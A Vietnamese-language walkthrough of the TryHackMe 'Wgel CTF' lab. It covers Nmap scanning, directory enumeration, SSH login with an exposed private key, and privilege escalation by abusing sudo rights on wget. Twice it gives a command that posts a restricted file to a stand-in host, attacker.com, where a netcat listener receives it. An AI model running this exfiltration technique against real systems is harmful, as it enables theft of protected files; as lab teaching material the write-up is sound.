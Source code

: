 TryHackMe - Wgel CTF Writeup  
Tools used:
Nmap
1.Dirsearch
2.Gobuster
3.GTFOBins
Scanning and Enumeration  

**LƯU Ý:** Địa chỉ IP của máy sẽ được biểu diễn là `10.10.x.x` vì TryHackMe cấp IP khác nhau cho từng người dùng.  

Giả sử bạn đã có IP của máy, hãy chạy **4 lệnh Nmap** để quét và thu thập thông tin hệ thống.  

Half TCP Scan (Quét TCP một nửa bắt tay)
```
nmap -n -sS -vv -T5 -p 1-20000 10.10.x.x -oN Half-TCP.txt
```
Quét phiên bản / Banner Grabbing  
Sử dụng Nmap để lấy thông tin phiên bản dịch vụ chạy trên các cổng.  
```
nmap -sV --version-all -vv -T5 -p 22,80 10.10.x.x -oN Version-scan.txt
```
Aggressive Scan  
Thực hiện quét nâng cao (Aggressive Scan) để vừa thu thập service, version vừa chạy các script cơ bản.  
```
nmap -A -vv -T5 10.10.x.x -oN Aggressive-scan.txt
```
Nmap NSE Vulnerability Scan  
Dùng Nmap với các script NSE để phát hiện lỗ hổng của dịch vụ trên port. 
```
nmap --script vuln -p 80 10.10.x.x -oN nse-vuln.txt
```
Điểm quan trọng ở đây chính là **Half TCP Scan** và **NSE Scan**:  
- Với **Half TCP Scan**, bạn sẽ biết được bao nhiêu port đang mở.  
- Với **NSE Scan**, bạn sẽ có được một “phác thảo” sơ bộ về những lỗ hổng mà port/dịch vụ đó có thể tồn tại.

Enumeration Website  

Từ đây, bên ngoài hệ thống không còn gì nhiều để khai thác.  
Chuyển trọng tâm sang website chạy trên **port 80**.  


Khi truy cập website, bạn sẽ thấy trang mặc định Apache2 Ubuntu.  
Hãy bỏ qua trang đó và bắt đầu enumerate website ngay.  


Bạn có thể dùng **Dirsearch** hoặc **Gobuster** (mình hay dùng Gobuster).  

Dirsearch
```
dirsearch -u http://10.10.x.x/ -t 120
```
Gobuster
```
gobuster dir -u http://10.10.x.x/ -x /path/to/wordlist/ -X /path/to/extension/wordlist -t 120
```
Lý do mình để danh sách extension trong file riêng là để chắc chắn không bỏ sót loại file nào.

Sau khi enumerate, thư mục duy nhất bạn thấy được truy cập là: http://10.10.x.x/sitemap/
Truy cập vào đó, bạn sẽ thấy một trang web.  

Quay lại bước đầu tiên, bạn nên tiếp tục enumerate website bằng **Dirsearch** hoặc **Gobuster** để tìm các file và thư mục có thể truy cập.  
Trong lúc chạy Dirsearch hoặc Gobuster, hãy kiểm tra **source code HTML** của `http://10.10.x.x/sitemap/` vì trong đó có chứa **một username**.  
Sau khi hoàn thành quét với Dirsearch hoặc Gobuster, bạn sẽ tìm thấy thư mục: /.ssh/
Lưu file trong đó và dùng nó để đăng nhập SSH.  


SSH login và Leo thang đặc quyền  

Sau khi đăng nhập thành công qua SSH, hãy lấy ngay **user flag** (thường nằm ở thư mục `/Documents/`).  

Privilege Escalation 
Nếu bạn chạy lệnh: 
```
sudo -l
```
Bạn sẽ thấy rằng user được phép chạy wget với đặc quyền cao.
Khai thác (Privilege Escalation)

Để khai thác, chạy lệnh sau:
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
--post-file : tuỳ chọn này sẽ gửi toàn bộ nội dung file (ví dụ: /root/root.txt) đến địa chỉ IP + port bạn chỉ định thông qua HTTP POST request.

LFILE : thay bằng đường dẫn của file mà bạn muốn đọc.

URL : thay bằng địa chỉ IP và port của máy tấn công (nơi bạn mở listener).


Trên máy tấn công (Kali)
Mở listener để chờ dữ liệu:
```
nc -lvnp 9999
```
```
ncat -lvnp 9999
```
Sau khi thiết lập listener, nhấn Enter và bạn sẽ thấy **root flag** được gửi về máy tấn công.  

Kết luận  

Nếu có điều gì chúng ta học được hôm nay, thì đó là:  
Ta có thể đọc và gửi nội dung của một file về máy của mình thông qua **HTTP POST request** bằng cách sử dụng lệnh:  
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
Chúng ta không thực sự leo thang đặc quyền bằng `wget`, tuy nhiên chúng ta đã **lợi dụng/abuse quyền SUID** để đọc được nội dung của các file bị hạn chế.  
